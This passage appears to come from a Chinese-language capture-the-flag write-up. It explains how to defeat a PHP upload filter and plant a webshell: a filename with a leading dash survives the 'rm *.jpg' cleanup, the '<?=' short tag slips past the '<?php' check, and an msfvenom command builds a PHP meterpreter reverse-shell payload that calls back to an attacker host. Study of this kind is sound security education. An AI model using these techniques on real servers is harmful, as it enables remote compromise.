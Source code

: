 ```php
            mkdir($user_path);
        }
        $file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
        else
            return false;
    }
    else
        return false;
}
```
&emsp;&emsp;可以看到如果你上传的文件包含`<?php`,就会运行一个bash clean_danger.sh去`删除`这个文件。而这个脚本的代码是：
```shell
cd /app/adminpic/
rm *.jpg
```
&emsp;&emsp;绕过这个检测的方法有两个：

* **1、使用linux命令的一个feature**
&emsp;&emsp;当我们创建诸如 -xaaaaaaa.jpg的文件后，我们不能通过 rm * or rm *.jpg 删除它，除非 `rm -r (它的上一层目录)`，比如：
<div align="center">
    <img src="/images/posts/n1ctf/52.png" />  
</div>
* **2、使用段标签**
&emsp;&emsp;因为php版本高于5.4，所以我们可以使用`<?=`拿到webshell。

&emsp;&emsp;为了方便反弹shell，这里我用msf生成了`shellcode`，命令：
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.187.129 LPORT=4444 -f raw > /root/meter.php
```
